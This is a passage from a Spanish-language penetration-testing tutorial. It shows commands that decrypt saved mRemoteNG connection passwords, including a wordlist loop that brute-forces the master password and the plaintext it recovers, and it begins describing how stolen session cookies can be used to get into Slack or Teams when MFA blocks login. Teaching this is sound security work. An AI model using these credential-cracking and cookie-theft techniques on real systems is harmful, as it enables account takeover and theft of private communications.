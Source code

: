 Si usamos la contraseña personalizada, podemos descifrarlo.

### Decrypt the Password with mremoteng_decrypt and a Custom Password

```r
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin

Password: ASDki230kasd09fk233aDA
```

En caso de que queramos intentar descifrar la contraseña, podemos modificar el script para probar múltiples contraseñas de un archivo, o podemos crear un Bash `for loop`. Podemos intentar descifrar el atributo `Protected` o la `Password` directamente. Si intentamos descifrar el atributo `Protected`, una vez que encontremos la contraseña correcta, el resultado será `Password: ThisIsProtected`. Si intentamos descifrar directamente la `Password`, el resultado será `Password: <PASSWORD>`.

### For Loop to Crack the Master Password with mremoteng_decrypt

```r
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
                              
Spring2017
Spring2016
admin
Password: ASDki230kasd09fk233aDA
admin admin          
admins

<SNIP>
```

---

## Abusing Cookies to Get Access to IM Clients

Con la capacidad de enviar mensajes instantáneos entre compañeros de trabajo y equipos, las aplicaciones de mensajería instantánea (IM) como `Slack` y `Microsoft Teams` se han convertido en pilares de las comunicaciones modernas en la oficina. Estas aplicaciones ayudan a mejorar la colaboración entre compañeros de trabajo y equipos. Si comprometemos una cuenta de usuario y obtenemos acceso a un IM Client, podemos buscar información en chats privados y grupos.

Existen múltiples opciones para obtener acceso a un IM Client; un método estándar es usar las credenciales del usuario para acceder a la versión en la nube de la aplicación de mensajería instantánea como lo haría el usuario regular.

Si el usuario está utilizando algún tipo de autenticación multifactorial (MFA), o no podemos obtener las credenciales en texto plano del usuario, podemos intentar robar las cookies del usuario para iniciar sesión en el cliente basado en la nube.

